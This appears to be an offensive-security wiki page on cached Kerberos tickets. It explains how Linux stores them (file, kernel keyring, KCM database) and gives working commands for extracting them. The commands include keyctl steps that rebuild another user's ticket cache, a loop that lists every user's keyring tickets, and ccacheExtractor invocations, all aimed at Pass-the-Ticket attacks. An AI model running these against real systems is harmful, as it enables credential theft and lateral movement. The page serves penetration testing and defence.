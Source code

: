 ```yaml
---
authors: Hakumarachi, ShutdownRepo
category: ad
---
```


# 🛠️ Cached Kerberos tickets

## Theory

Kerberos tickets can be cached on systems to allow for faster authentication without requiring users to re-enter credentials. Understanding how these tickets are stored is crucial for both defensive and offensive operations.

### Storage Methods

:::tabs

== UNIX-like

On Linux and other UNIX-like systems, tickets can be stored in 3 different ways:

| Storage     | Description                                                                                                                               |
|-------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| **FILE**    | Stores tickets in files, typically under `/tmp` directory, in the format `krb5cc_%{uid}`                                                   |
| **KEYRING** | Stores tickets in a dedicated kernel keyring space, only accessible to the ticket owner                                                     | 
| **KCM**     | Stores tickets in an LDAP-like database, typically at `/var/lib/sss/secrets/secrets.ldb` (default when using SSSD)                        |

The storage method is configured via the `default_ccache_name` parameter in `/etc/krb5.conf`, which is readable by all users.

> [!NOTE]
> This configuration can be overridden by files in `/etc/krb5.conf.d/`. When using SSSD, the value is typically set in `/etc/krb5.conf.d/kcm_default_ccache`

== Windows 🛠️

On Windows systems, Kerberos tickets are stored in memory by the Local Security Authority Subsystem Service (LSASS) process.

// TODO: Add more details

:::

## Practice

### From UNIX-like systems

:::tabs

== FILE Storage

Tickets are stored as files in the configured directory (default: `/tmp`). These files can be directly used for [Pass-the-Ticket](../../kerberos/ptt.md) attacks.

== KEYRING Storage

> [!NOTE]
> While root cannot directly read other users' keyring content, they can still access tickets by using `su - $user`

The `keyctl` utility (commonly pre-installed) can be used to read keyring content:

```bash
# Get persistent keyring address
keyctl get_persistent @u

# Show keyring content
keyctl show 30711432
```

It will display the content of the keyring in a readable format.

```
Keyring
  30711432 ---lswrv      0 65534  keyring: _persistent.0
 127492740 --alswrv      0     0   \_ keyring: _krb
 556713767 --alswrv      0     0       \_ user: krb_ccache:primary
1002684101 --alswrv      0     0       \_ keyring: 0
 110355059 --alswrv      0     0           \_ user: __krb5_princ__
 575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
 161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
 760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
```

To reconstruct a Kerberos ticket, you need:
1. The `__krb5_princ__` value (in the example above, it's `110355059`)
2. The service key value (the `big_key` value. In the example above, it's `161110247`)

```bash
# Get principal value
keyctl print $PRINCIPALS_ADDRESS

# Get service key
keyctl print $KEY_ADDRESS

The result will be an hexadecimal string, that can be appended to the ticket header to reconstruct the full ticket.

# Reconstruct ticket
HEADER='0504000c00010008ffffffff00000000'
PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')
KEY=$(keyctl print $KEY_ADDRESS | awk -F : '{print $3}')
ticket=$HEADER$PRINCIPALS$KEY

# Save to file
echo "$ticket" | xxd -r -p > ticket.ccache
```

> [!TIP]
> [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can automate this process:
> ```bash
> python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
> ```

A domain joined machine can cache lots of tickets from different users. It would be tedious to list them all manually.
To list all available tickets, the `/proc/key-users` file can be used. It's readable by all users and contains the list of all users with persistent keyrings.

```bash
# List all tickets
for uid in $(awk '{print$1}' /proc/key-users | tr -d :); do
    res=$(KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1)
    if [ $? -eq 0 ]; then
        echo -e "\n=== UID $uid ==="
        echo "$res"
    fi
done

# Use a specific ticket
KRB5CCNAME=KEYRING:persistent:$UID
```

> [!SUCCESS]
> [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can automatically extract all tickets.

== KCM Storage

KCM stores tickets in an LDB database file, typically only readable by root. [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract tickets:

```bash
# Extract all tickets from LDB database
python3 ccacheExtractor.py kcm ./secrets.ldb
```

Extracted tickets can then be used with [Pass-the-cache](../../kerberos/ptc.md) or [Pass-the-tickets](../../kerberos/ptt.md) depending on the ticket type.

### From Windows

// TODO: Add more details

:::
